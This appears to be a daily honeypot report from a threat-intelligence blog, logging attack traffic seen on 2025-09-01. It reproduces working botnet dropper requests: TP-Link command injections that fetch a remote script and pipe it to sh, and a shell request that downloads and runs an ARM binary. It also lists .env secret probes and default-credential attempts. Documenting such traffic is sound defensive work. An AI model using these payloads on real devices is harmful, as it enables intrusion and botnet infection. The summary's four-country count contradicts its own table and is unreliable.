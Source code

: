 ```yaml
---
title: "Report: 2025-09-01 "
date: 2025-09-01
desciption: "Report: 2025-09-01" 
tags: [repport, daily]
---
```



# Daily Report: 2025-09-01 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 24 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 576 requests were recorded during the day, originating from 4 different countries, with a peak of 113 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                     |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------|
| 187.72.115.45   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 121.167.125.180 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 75.110.226.226  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 45.153.34.242   | GET /shell?cd+/tmp;rm+arm+arm7;wget+http:/\x5C/91.224.92.22:58485/observatory/arm7;chmod+777+arm7;./arm7+jaws HTTP/1.1                      |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                       |
|----:|----------------------:|:----------------------------------------------|
|  73 |                     2 | CONNECT 196.251.83.215:80 HTTP/1.0            |
| 110 |                     1 | GET /.env-ssl-cert HTTP/1.1                   |
| 113 |                     1 | GET /.env-sendgrid HTTP/1.1                   |
| 114 |                     1 | GET /.env-settings HTTP/1.1                   |
| 117 |                     1 | GET /.env-tls-cert HTTP/1.1                   |
| 119 |                     1 | GET /.env-tutorial HTTP/1.1                   |
| 123 |                     1 | GET /.env.api.json HTTP/1.1                   |
| 124 |                     1 | GET /.env.aws-prod HTTP/1.1                   |
| 125 |                     1 | GET /.env.backup.1 HTTP/1.1                   |
| 126 |                     1 | GET /.env.backup.2 HTTP/1.1                   |
| 127 |                     1 | GET /.env.defaults HTTP/1.1                   |
| 129 |                     1 | GET /.env-supabase HTTP/1.1                   |
| 131 |                     1 | GET /.env-smtp.env HTTP/1.1                   |
| 133 |                     1 | GET /.env.keys.env HTTP/1.1                   |
| 134 |                     1 | GET /.env.key.json HTTP/1.1                   |
| 135 |                     1 | GET /.env.keys.txt HTTP/1.1                   |
| 145 |                     1 | \x04\x01\x00P\xC4\xFBS\xD7\x00                |
| 146 |                     1 | \x04\x01\x00P\xC4\xFBS\xD7user:1234\x00       |
| 147 |                     1 | \x04\x01\x00P\xC4\xFBS\xD7debian:debian\x00   |
| 148 |                     1 | \x04\x01\x00P\xC4\xFBS\xD7support:support\x00 |
| 149 |                     1 | \x04\x01\x00P\xC4\xFBS\xD7manager:manager\x00 |
| 161 |                     1 | GET /.env.disabled HTTP/1.1                   |
| 162 |                     1 | GET /.env.firebase HTTP/1.1                   |
| 164 |                     1 | GET /.env-throttle HTTP/1.1                   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   113 | US                 |
|  1 |                   110 | GB                 |
|  2 |                    61 | SG                 |
|  3 |                    49 | JP                 |
|  4 |                    46 | SO                 |
|  5 |                    46 | MM                 |
|  6 |                    29 | DE                 |
|  7 |                    21 | SC                 |
|  8 |                    14 | IN                 |
|  9 |                    13 | NL                 |
| 10 |                    13 | BG                 |
| 11 |                    11 | HK                 |
| 12 |                    11 | SE                 |
| 13 |                    10 | CA                 |
| 14 |                     8 | CN                 |
| 15 |                     3 | BR                 |
| 16 |                     3 | KR                 |
| 17 |                     2 | MN                 |
| 18 |                     2 | CH                 |
| 19 |                     2 | VN                 |
| 20 |                     2 | RU                 |
| 21 |                     1 | ES                 |
| 22 |                     1 | FR                 |
| 23 |                     1 | CZ                 |
| 24 |                     1 | IT                 |
| 25 |                     1 | IR                 |
| 26 |                     1 | TW                 |
| 27 |                     1 | BE                 |
